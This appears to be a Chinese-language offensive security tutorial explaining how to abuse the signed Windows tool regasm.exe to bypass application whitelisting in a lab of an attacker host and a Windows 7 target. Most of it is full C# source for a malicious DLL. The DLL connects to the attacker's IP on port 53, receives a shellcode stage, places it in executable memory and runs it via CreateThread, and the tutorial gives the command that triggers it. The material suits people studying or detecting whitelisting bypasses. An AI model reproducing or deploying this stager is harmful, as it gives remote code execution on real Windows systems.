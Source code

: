 
### Regasm简介：

Regasm 为程序集注册工具，读取程序集中的元数据，并将所需的项添加到注册表中。RegAsm.exe是Microsoft Corporation开发的合法文件进程。它与Microsoft.NET Assembly Registration Utility相关联。

**说明：**Regasm.exe所在路径没有被系统添加PATH环境变量中，因此，REGASM命令无法识别。

具体参考微软官方文档：  
https://docs.microsoft.com/en-us/dotnet/framework/tools/regasm-exe-assembly-registration-tool

基于白名单Regasm.exe配置payload：

Windows 7 默认位置：
```bash
C:\Windows\Microsoft.NET\Framework\v4.0.30319\regasm.exe
```

**攻击机：**192.168.1.4 Debian  
**靶机：**192.168.1.3 Windows 7

### 配置攻击机msf：
![](media/314cbd2bd9ab4f06f2323a2cd8c0d624.jpg)

### 靶机执行：
```bash
C:\Windows\Microsoft.NET\Framework\v4.0.30319\regasm.exe /U Micropoor.dll
```
![](media/868577dc3b5b517840363527f5b5ad2b.jpg)


### 附录：Micropoor.cs
**注：x86 payload**

```c#
using System; using System.Net; using System.Linq; using System.Net.Sockets; using System.Runtime.InteropServices; using System.Threading; using System.EnterpriseServices; using System.Windows.Forms;

namespace HYlDKsYF

{

public class kxKhdVzWQXolmmF : ServicedComponent { 

public kxKhdVzWQXolmmF() { Console.WriteLine("doge"); } 

[ComRegisterFunction]

public static void RegisterClass ( string pNNHrTZzW )

{

ZApOAKJKY.QYJOTklTwn();

} 

[ComUnregisterFunction]

public static void UnRegisterClass ( string pNNHrTZzW )

{

ZApOAKJKY.QYJOTklTwn();

}

} 

public class ZApOAKJKY

{ [DllImport("kernel32")] private static extern UInt32 HeapCreate(UInt32 FJyyNB, UInt32 fwtsYaiizj, UInt32 dHJhaXQiaqW);

[DllImport("kernel32")] private static extern UInt32 HeapAlloc(UInt32 bqtaDNfVCzVox, UInt32 hjDFdZuT, UInt32 JAVAYBFdojxsgo);

[DllImport("kernel32")] private static extern UInt32 RtlMoveMemory(UInt32 AQdEyOhn, byte[] wknmfaRmoElGo, UInt32 yRXPRezIkcorSOo);

[DllImport("kernel32")] private static extern IntPtr CreateThread(UInt32 uQgiOlrrBaR, UInt32 BxkWKqEKnp, UInt32 lelfRubuprxr, IntPtr qPzVKjdiF, UInt32 kNXJcS, ref UInt32 atiLJcRPnhfyGvp);

[DllImport("kernel32")] private static extern UInt32 WaitForSingleObject(IntPtr XSjyzoKzGmuIOcD, UInt32 VumUGj);static byte[] HMSjEXjuIzkkmo(string aCWWUttzmy, int iJGvqiEDGLhjr) {

IPEndPoint YUXVAnzAurxH = new IPEndPoint(IPAddress.Parse(aCWWUttzmy), iJGvqiEDGLhjr);

Socket MXCEuiuRIWgOYze = new Socket(AddressFamily.InterNetwork, SocketType.Stream, ProtocolType.Tcp);

try { MXCEuiuRIWgOYze.Connect(YUXVAnzAurxH); }

catch { return null;}

byte[] Bjpvhc = new byte[4];

MXCEuiuRIWgOYze.Receive(Bjpvhc, 4, 0);

int IETFBI = BitConverter.ToInt32(Bjpvhc, 0);

byte[] ZKSAAFwxgSDnTW = new byte[IETFBI + 5];

int JFPJLlk = 0;

while (JFPJLlk < IETFBI)

{ JFPJLlk += MXCEuiuRIWgOYze.Receive(ZKSAAFwxgSDnTW, JFPJLlk + 5, (IETFBI ‐ JFPJLlk) < 4096 ? (IETFBI ‐ JFPJLlk) : 4096, 0);}

byte[] nXRztzNVwPavq = BitConverter.GetBytes((int)MXCEuiuRIWgOYze.Handle);

Array.Copy(nXRztzNVwPavq, 0, ZKSAAFwxgSDnTW, 1, 4); ZKSAAFwxgSDnTW[0] = 0xBF;

return ZKSAAFwxgSDnTW;}

static void TOdKEwPYRUgJly(byte[] KNCtlJWAmlqJ) {

if (KNCtlJWAmlqJ != null) {

UInt32 uuKxFZFwog = HeapCreate(0x00040000, (UInt32)KNCtlJWAmlqJ.Lengt h, 0);

UInt32 sDPjIMhJIOAlwn = HeapAlloc(uuKxFZFwog, 0x00000008, (UInt32)KNCtlJWAmlqJ.Length);

RtlMoveMemory(sDPjIMhJIOAlwn, KNCtlJWAmlqJ, (UInt32)KNCtlJWAmlqJ.Length);

UInt32 ijifOEfllRl = 0;

IntPtr ihXuoEirmz = CreateThread(0, 0, sDPjIMhJIOAlwn, IntPtr.Zero, 0, ref ijifOEfllRl);

WaitForSingleObject(ihXuoEirmz, 0xFFFFFFFF);}} 

public static void QYJOTklTwn() {

byte[] ZKSAAFwxgSDnTW = null; ZKSAAFwxgSDnTW = HMSjEXjuIzkkmo("192.168.1.4", 53);

TOdKEwPYRUgJly(ZKSAAFwxgSDnTW);

} } }
```
>   Micropoor
